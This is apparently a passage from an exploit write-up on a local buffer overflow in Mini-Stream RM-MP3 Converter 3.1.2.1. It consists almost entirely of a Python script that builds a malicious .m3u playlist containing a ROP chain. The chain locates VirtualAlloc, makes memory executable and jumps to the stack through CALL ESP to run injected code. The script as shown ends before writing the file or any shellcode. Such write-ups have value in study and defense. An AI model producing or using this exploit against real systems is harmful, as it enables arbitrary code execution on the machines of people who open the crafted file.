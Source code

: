 ![](/assets/img/exploit/2018-08-14-mini-stream-rm-mp3-converter-3.1.2.1-local-buffer-overflow/0x007.png)

Win~
```
#!/usr/bin/python
import sys, struct

file="exp.m3u"


rop = struct.pack('<L',0x41414141)
rop += struct.pack('<L',0x1002be41)	# POP EDI # RETN
rop += struct.pack('<L',0x10013483)	# ROP nop

rop += struct.pack('<L',0x10029f02)	# POP ECX # RETN
rop += struct.pack('<L',0xffffffff)	# -1
rop += struct.pack('<L',0x1002e01b)	# INC ECX # MOV DWORD PTR DS:[EDX],ECX # RETN	0
rop += struct.pack('<L',0x1002e01b)	# INC ECX # MOV DWORD PTR DS:[EDX],ECX # RETN	1
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	2
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	4
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	8
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	16
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	32
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	64 --> 0x40

rop += struct.pack('<L',0x10031912)	# POP EAX # RETN
rop += struct.pack('<L',0x1005d060)	# kernel32.virtualalloc ptr
rop += struct.pack('<L',0x10027f59)	# MOV EAX,DWORD PTR DS:[EAX] # RETN
rop += struct.pack('<L',0x1005bb8e)	# PUSH EAX # ADD DWORD PTR SS:[EBP+5],ESI # PUSH 1 # POP EAX # POP ESI # RETN

rop += struct.pack('<L',0x1002d3c3)	# POP EDX # RETN
rop += struct.pack('<L',0x66666666)
rop += struct.pack('<L',0x10019ee8)	# POP EBX # RETN
rop += struct.pack('<L',0x9999a99a)
rop += struct.pack('<L',0x10029f3e)	# ADD EDX,EBX # POP EBX # RETN 0x10		0x66666666 + 0x9999a99a = 0x100001000
rop += struct.pack('<L',0x10013483)
rop += struct.pack('<L',0x10013483)
rop += struct.pack('<L',0x10013483)
rop += struct.pack('<L',0x10013483)
rop += struct.pack('<L',0x10013483)
rop += struct.pack('<L',0x10013483)

rop += struct.pack('<L',0x10035131)	# POP EBP # RETN
rop += struct.pack('<L',0x100371f5) # CALL ESP

```